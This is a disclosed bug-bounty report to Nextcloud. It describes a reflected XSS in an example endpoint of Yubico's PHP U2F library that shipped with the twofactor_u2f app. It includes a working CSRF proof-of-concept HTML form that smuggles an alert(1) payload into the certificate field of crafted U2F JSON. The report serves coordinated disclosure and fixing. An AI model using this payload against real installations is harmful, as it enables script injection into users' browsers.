# Reflected XSS in U2F plugin by shipping the example endpoints

## Report Details
- **Report ID**: 192786
- **URL**: https://hackerone.com/reports/192786
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-12-20T16:42:45.752Z
- **Disclosed**: 2017-03-22T11:42:48.183Z

## Reporter
- **Username**: lukasreschke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
While running a [RIPS scan](https://www.ripstech.com/) against our [instrumentalized source code](https://github.com/nextcloud/php-static-scanner-instrumentalization) it noticed that the file `/apps/twofactor_u2f/vendor/yubico/u2flib-server/examples/localstorage/index.php` echoes on user input:

{F145451}

I was first a tad confused because [the examples have been removed from our Git repository](https://github.com/nextcloud/twofactor_u2f/tree/3321e0dc84208adb623b6843f72e81782d9f2b6e/vendor/yubico/u2flib-server), but the release from apps.nextcloud.com ships with that file. So I suppose the Makefile is downloading the dependencies again.

While exploiting this is not entirely trivial due to some sanity checks in the code above it is however possible, the following CSRF PoC will trigger a popup:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://10.211.55.7/stable9/apps/twofactor_u2f/vendor/yubico/u2flib-server/examples/localstorage/index.php" method="POST">
      <input type="hidden" name="doAuthenticate" value="&#123;&quot;signatureData&quot;&#58;&quot;AQAAABowRAIgMZL56nkLO7gs2OYoUW8RE3xAWLAvzroTiWO2T2PBb&#45;wCID6zjKjjxsqqG5NZ4upnT1xCeFmnDSefS&#95;TWHZWjoXgx&quot;&#44;&quot;clientData&quot;&#58;&quot;eyAiY2hhbGxlbmdlIjogIjFQX1l4TWpGVEhPcmNyQmlwUF8tLXRtVjA4SXNRUnVXaVlwZVZYVlNpVFUiLCAib3JpZ2luIjogImh0dHA6XC9cLzEwLjIxMS41NS43IiwgInR5cCI6ICJuYXZpZ2F0b3IuaWQuZ2V0QXNzZXJ0aW9uIiB9&quot;&#44;&quot;keyHandle&quot;&#58;&quot;9cgajEA4PWsnEbpgfnaxFBxMsiUNWo4GKbdk5PrdMn3c139bG3mXqLVw3VwpdcQzzPmVyGF6KBvFZsb2jpzdmg&quot;&#125;" />
      <input type="hidden" name="request" value="&#91;&#123;&quot;version&quot;&#58;&quot;U2F&#95;V2&quot;&#44;&quot;challenge&quot;&#58;&quot;1P&#95;YxMjFTHOrcrBipP&#95;&#45;&#45;tmV08IsQRuWiYpeVXVSiTU&quot;&#44;&quot;keyHandle&quot;&#58;&quot;9cgajEA4PWsnEbpgfnaxFBxMsiUNWo4GKbdk5PrdMn3c139bG3mXqLVw3VwpdcQzzPmVyGF6KBvFZsb2jpzdmg&quot;&#44;&quot;appId&quot;&#58;&quot;http&#58;&#47;&#47;10&#46;211&#46;55&#46;7&quot;&#125;&#93;" />
      <input type="hidden" name="registrations" value="&#91;&#123;&quot;keyHandle&quot;&#58;&quot;9cgajEA4PWsnEbpgfnaxFBxMsiUNWo4GKbdk5PrdMn3c139bG3mXqLVw3VwpdcQzzPmVyGF6KBvFZsb2jpzdmg&quot;&#44;&quot;publicKey&quot;&#58;&quot;BPtO8T0VluUL14FRKvEkZ5lP&#47;3W4F7er4WS87iYfrpoKj0Fjo&#43;M&#43;zAxNsuhYd&#43;3rYQFVPr4hflhOh3lMSZ605Fg&#61;&quot;&#44;&quot;certificate&quot;&#58;&quot;MIICLjCCARigAwIBAgIECmML&#92;&#47;zALBgkqhkiG9w0BAQswLjEsMCoGA1UEAxMjWXViaWNvIFUyRiBSb290IENBIFNlcmlhbCA0NTcyMDA2MzEwIBcNMTQwODAxMDAwMDAwWhgPMjA1MDA5MDQwMDAwMDBaMCkxJzAlBgNVBAMMHll1YmljbyBVMkYgRUUgU2VyaWFsIDE3NDI2MzI5NTBZMBMGByqGSM49AgEGCCqGSM49AwEHA0IABKQjZF26iyPtbNnl5IuTKs&#92;&#47;fRWTHVzHxz1IHRRBrSbqWD60PCqUJPe4zkIRFqBa4NnzdhVcS80nlZuY3ANQm0J&#43;jJjAkMCIGCSsGAQQBgsQKAgQVMS4zLjYuMS40LjEuNDE0ODIuMS4yMAsGCSqGSIb3DQEBCwOCAQEAZTmwMqHPxEjSB64Umwq2tGDKplAcEzrwmg6kgS8KPkJKXKSu9T1H6XBM9&#43;LAE9cN48oUirFFmDIlTbZRXU2Vm2qO9OdrSVFY&#43;qdbF9oti8CKAmPHuJZSW6ii7qNE59dHKUaP4lDYpnhRDqttWSUalh2LPDJQUpO9bsJPkgNZAhBUQMYZXL&#92;&#47;MQZLRYkX&#43;ld7llTNOX5u7n&#92;&#47;4Y5EMr&#43;lqOyVVC9lQ6JP6xoa9q6Zp9&#43;Y9ZmLCecrrcuH6&#43;pLDgAzPcc8qxhC2OR1B0ZSpI9RBgcT0KqnVE0tq1KEDeokPqF3MgmDRkJ&#43;&#43;&#92;&#47;a2pV0wAYfPC3tC57BtBdH&#92;&#47;UXEB8xZVFhtA&#61;&#61;wzh87&apos;&#45;alert&#40;1&#41;&#45;&apos;k50k8&quot;&#44;&quot;counter&quot;&#58;&#45;1&#125;&#93;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

{F145453}

This code is part of the [official Yubico PHP U2F library](https://github.com/Yubico/php-u2flib-server). In a first step I'll coordinate with @christophwurst to remove this file from the release on apps.nextcloud.com, then I'll make sure to reach out to Yubico to get this resolved in their library.

## Attachments
- rips-result.png
- poc-popup.png
